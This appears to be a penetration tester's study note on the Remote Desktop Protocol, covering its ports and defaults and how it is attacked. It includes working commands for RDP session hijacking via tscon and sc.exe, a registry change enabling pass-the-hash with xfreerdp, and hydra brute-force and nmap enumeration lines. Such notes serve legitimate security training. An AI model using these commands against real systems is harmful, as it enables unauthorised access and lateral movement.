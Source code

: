 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
*Remote Desktop Protocol* (*RDP*) is a protocol for accessing a windows system remotely. It transmits display and control commands via a GUI over an encrypted TCP connection.

**Standard Port:** 
- 3389/tcp
- 3389/udp

| service name | releases link | notes |
| ------------ | ------------- | ----- |
|              |               |       |
## How it works
- Supports TLS/SSL but many windows systems don't insist it must be used. 
- By default the certificates are self-signed.
- It comes installed on windows by default. Activated using the *Server Manager*.
- Defaults to only allowing connections from hosts with [Network level authentication](https://en.wikipedia.org/wiki/Network_Level_Authentication) (*NLA*).

## Configuration


## Potential Capabilities
- Remote GUI access to a windows target
- RDP Session Hijacking

### RDP Session Hijacking
If we have a compromised `SYSTEM` account we can use this privilege to hijack another user's session with [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) (*this might let us gain access to a domain admin for example*).
```PowerShell
# Get all the users that have desktop sessions (shows us their session IDs)
PS C:\> query user

# Connect another user's session to our current one
PS C:\> tscon [TARGET_SESSION_ID] /dest:[OUR_SESSION_NAME]
```

We can use the [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) to create a new service running as the `Local System` user to perform our goal:
```cmd
C:\> sc.exe create [service_name] binpath= "[command_to_run]"
C:\> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

C:\> net start sessionhijack
```
> Also works in PS
> Patched: no longer works on Server 2019 :(

### PtH via RDP (Linux)
Under certain circumstances, PtH can be achieved via RDP to gain GUI access using a tool like [[xfreerdp]].
- `Restricted Admin Mode` must be enabled (*disabled by default*) on the target host.
	- The `DisableRestrictedAdmin` (*REG_DWORD*) key can be added to the `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value 0.
```cmd
C:\> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once enabled, we can use [[xfreerdp]] and the `/pth` option to gain access
```sh
$ xfreerdp /v:[target_ip] /u:[user] /pth:[hash]
```
User Account Control (UAC) can limit a local user's ability to perform remote administration operations. If the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, only the built-in local admin can perform these operations. Setting it to 1 will allow other local admins.
> If the registry key `FilterAdministratorToken` is enabled (set to 1, but *disabled by default*) then even the RID 500 account is restricted. Meaning remote PTH will fail against even this account.

These settings only apply to local administrator accounts however, domain accounts with admin rights on the system can still be exploited using PtH.
## Enumeration Checklist

| Goal                | Command(s)                                                                    | Refs                                                                                                                                                               |
| ------------------- | ----------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| General Information | sudo nmap [ip] -sV -sC -p3389 --script rdp*                                   |                                                                                                                                                                    |
| RDP security check  | sudo cpan<br>rdp-sec-check.pl [ip]<br>                                        | [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check)                                                                                               |
| RDP Bruteforce      | hydra -L [user_list] -P [pass_list] rdp://[ip]                                | [[Hydra]]<br>> this can cause account lockouts, so password-spraying attacks are preferred ([Crowbar](https://github.com/galkan/crowbar) can be used for this too) |
| Connect to an RDP   | xfreerdp /u:[user] /p:[pass] /v:[ip]<br><br>rdesktop -u [user] -p [pass] [ip] |                                                                                                                                                                    |
> Nmap uses the cookie `mstshash=nmap` on RDP connections. This can be identified by threat hunters or EDRs that could result in us getting blocked.
### Nmap Scripts
- rdp-*
- rdp-enum-encryption
- rdp-ntlm-info